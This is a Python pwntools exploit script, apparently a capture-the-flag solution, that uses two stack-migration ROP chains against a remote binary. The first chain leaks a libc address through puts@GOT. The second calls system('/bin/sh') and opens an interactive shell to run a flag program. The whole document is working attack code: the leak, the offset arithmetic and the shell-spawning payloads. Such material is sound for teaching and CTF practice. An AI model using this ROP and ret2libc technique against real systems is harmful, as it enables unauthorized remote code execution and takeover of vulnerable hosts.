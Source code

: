 ```python

print("===== step 3 === put ROPchain #1 in name[] =====")

conn.recvuntil('please?\n')	# welcome, name

payload = p64(rdi_ret) + p64(puts_got) + p64(puts_plt)+ p64(welcome_addr)
conn.send(payload)

print("===== step 4 === stack migration #1 get libc offset =====")

conn.recvuntil('say?\n')	# _coda, str

payload = b'0'*16 + p64(old_rbp - 0xd0 - 8)
conn.send(payload)

lib_addr = u64(conn.recvline()[:-1]  + b'\x00\x00') - 0x875a0

print("===== step 5 === put ROPchain #2 in name[] =====")

conn.recvuntil('please?\n')	# welcome, name

bin_sh_str = 0x1b75ab + lib_addr
system_addr = 0x55410 + lib_addr

payload = p64(rdi_ret) + p64(bin_sh_str) + p64(system_addr) 
conn.send(payload) 

print("===== step 6 === stack migration #2 run system() =====")

conn.recvuntil('say?\n')	# _coda, str

payload = b'0'*16 + p64(old_rbp - 0xd0 - 8)
conn.send(payload)

print("===== successful ! QWQ =====")

conn.sendline('./flag.exe 3190105871')
conn.interactive()
```
